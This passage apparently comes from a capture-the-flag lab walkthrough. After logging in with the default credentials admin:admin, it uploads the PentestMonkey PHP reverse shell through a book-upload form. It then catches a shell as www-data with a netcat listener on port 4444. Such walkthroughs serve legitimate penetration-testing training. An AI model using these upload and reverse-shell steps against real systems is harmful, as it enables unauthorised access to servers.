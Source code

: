 And we have obtained the user credentials `admin:admin` via this vulnerability.

### File Upload Vulnerability

Having logged in with the recovered or guessed credentials admin:admin at http://192.168.120.224/store/admin.php, we are redirected to http://192.168.120.224/store/admin_book.php. This page shows a listing of existing books.

In addition, we see a link to `Add new book` in the top-left portion of the screen that leads us to http://192.168.120.224/store/admin_add.php. Here, it looks like we are able to upload a new file to the store.

We can try uploading a PHP reverse shell from PentestMonkey:

```bash
kali@kali:~$ cat php-reverse-shell.php 
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
...

$ip = '192.168.118.3';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
...
kali@kali:~$
```

There is one caveat in the upload process: the Publisher text field cannot be arbitrary and must be one of several choices. We can easily view these choices on the page http://192.168.120.224/store/publisher_list.php:

We see Apress as one of the choices listed, and we will use this publisher label. The rest of the fields can contain arbitrary data, like so:

If we now return to `http://192.168.120.224/store/admin_book.php`, we will see our new entry added to the top of the list:

Next, we will set up a listener on port `4444` and then trigger the reverse shell by navigating to `http://192.168.120.224/store/`

```bash
kali@kali:~$ nc -lvp 4444
listening on [any] 4444 ...
192.168.120.224: inverse host lookup failed: Unknown host
connect to [192.168.118.3] from (UNKNOWN) [192.168.120.224] 38114
Linux funbox3 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:16:51 up  1:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```
And we have a reverse shell as user `www-data`.
